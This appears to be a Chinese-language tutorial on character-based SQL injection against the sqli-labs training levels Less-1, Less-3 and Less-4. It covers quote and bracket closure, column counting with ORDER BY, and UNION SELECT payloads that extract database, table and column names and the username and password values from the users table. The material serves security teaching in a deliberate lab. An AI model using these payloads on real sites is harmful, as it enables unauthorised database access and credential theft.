





> Environment: PHP 7.3.4 + MySQL 5.7.26

> Lab: sqli-labs Less-1, Less-3, & Less-4

---

## 1.0 介绍

在上一篇文章[Union Injection]中, 逐步剖析了数字型注入(Less-2)关卡, 这篇文章开始转向**字符型注入**,他增加了一个关键步骤: **符号闭合**,也就是通过精心拼接单引号、双引号或括号，把原本破坏 SQL 语法的恶意输入“伪装”成合法的查询语句，从而成功注入我们想要的 Payload

**为什么要学字符型注入?**

在真实 Web 应用中，绝大多数用户输入的参数都是被引号包裹的字符串(如登录名、搜索关键词、文章标题),字符型注入的占比远高于数字型

### 1.1 SQL语句及URL中常用注释

| 注释类型      | SQL 语句中的语法要求                             | GET 请求 URL 中的写法                                        | POST 请求 Body 中的写法    |
| ------------- | ------------------------------------------------ | ------------------------------------------------------------ | -------------------------- |
| 单行注释 `--` | 两个减号后**必须跟一个空格**(或制表符等控制字符) | 用 `--+` 或 `--%20`<br/>`+` 解码为空格，`%20` 也是空格       | 直接写 `--` (减号后带空格) |
| 单行注释 `#`  | 从 `#` 开始到行尾的所有内容均为注释              | **必须编码为 `%23`**<br/>(浏览器默认将 `#` 解析为页面锚点, 不发送给服务器) | 直接写 `#`                 |

---

## 2.0 手工注入

**01 判断有无注入点(Less-1)**

- <span style="border:1px solid #f44336;background:#ffebee;padding:2px 6px;border-radius:3px;font-family:monospace">?id=1 and 1=1</span> → 页面正常返回值
- <span style="border:1px solid #f44336;background:#ffebee;padding:2px 6px;border-radius:3px;font-family:monospace">?id=1 and 1=2</span> → 页面正常返回值

> 分析: ?id=1 and 1=2 返回值应该为false, 故暂且认为该漏洞为字符类型

**以下测试字符型:**

- <span style="border:1px solid #f44336;background:#ffebee;padding:2px 6px;border-radius:3px;font-family:monospace">?id=1'</span> → 报错

  

- <span style="border:1px solid #f44336;background:#ffebee;padding:2px 6px;border-radius:3px;font-family:monospace">?id=1' and 1=1 --+</span> → 页面正常返回值

  

- <span style="border:1px solid #f44336;background:#ffebee;padding:2px 6px;border-radius:3px;font-family:monospace">?id=1' and 1=2 --+</span> → 无返回值

  

**按照上述方法,可构造出Less-3 & Less-4 的闭合符号**

| Less-3 | Less-4 |
| :----: | :----: |
| ?id=') | ?id=") |

**02 猜解列数**

<span style="border:1px solid #f44336;background:#ffebee;padding:2px 6px;border-radius:3px;font-family:monospace">?id=1' order by 3 --+</span> → 正常返回

<span style="border:1px solid #f44336;background:#ffebee;padding:2px 6px;border-radius:3px;font-family:monospace">?id=1' order by 4 --+</span> → 报错 <span style="border:1px solid #f44336;background:#ffebee;padding:2px 6px;border-radius:3px;font-family:monospace">Unknown column '4' in 'order clause'</span>

> 通过以上Payload可知,当前查询涉及的表共有 **3 列**

**03 定位回显**

```sql
?id=-1' union select 1,2,3 --+
```



**通过以上步骤, 确定三个Less的基本信息如下:**

|  Lab   | Character | Column | **display position** |
| :----: | :-------: | :----: | :------------------: |
| Less-1 |     '     |   3    |         2, 3         |
| Less-3 |    ')     |   3    |         2, 3         |
| Less-4 |    ")     |   3    |         2, 3         |

**综合以上信息,即可构建注入Payload:**

- 爆数据库名

```sql
?id=-1' union select null,database(),null --+
```

- 爆所有表

```sql
?id=-1' union select null,group_concat(table_name),null from information_schema.tables where table_schema=database() --+
```

- 爆字段

```sql
?id=-1' union select null,group_concat(column_name),null from information_schema.columns where table_schema=database() and table_name='users' --+
```

- 爆数据

```sql
?id=-1' union select null,group_concat(username,0x3a,password,0x0a),null from security.users --+
```



**综上, 完整注入(Less-1), 对Less-3 & Less-4使用同样思路注入即可, 只需修改对应Payload中闭合字符**